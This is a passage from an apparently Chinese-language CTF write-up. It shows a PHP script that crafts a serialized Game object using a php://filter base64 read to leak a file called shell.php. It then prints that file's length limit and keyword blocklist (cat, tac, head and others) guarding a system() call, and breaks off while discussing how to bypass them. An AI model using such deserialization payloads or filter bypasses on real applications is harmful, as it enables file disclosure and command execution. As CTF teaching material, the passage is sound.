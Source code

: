 ```bash
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new Open();
$a->filename='php://filter/read=convert.base64-encode/resource=shell';
$a->content='a';
echo base64_encode(serialize($a));
```

得到 shell.php

```bash
<?php
function shell($cmd){
    if(strlen($cmd)<10){
        if(preg_match('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/',$cmd)){
            die("NO");
        }else{
            return system($cmd);
        }
    }else{
        die('so long!');
    }
}
```

其实绕过还是比较好绕过的，但是在源码中

```bash
if(!file_get_contents('waf.txt')){
            shell($content);
```
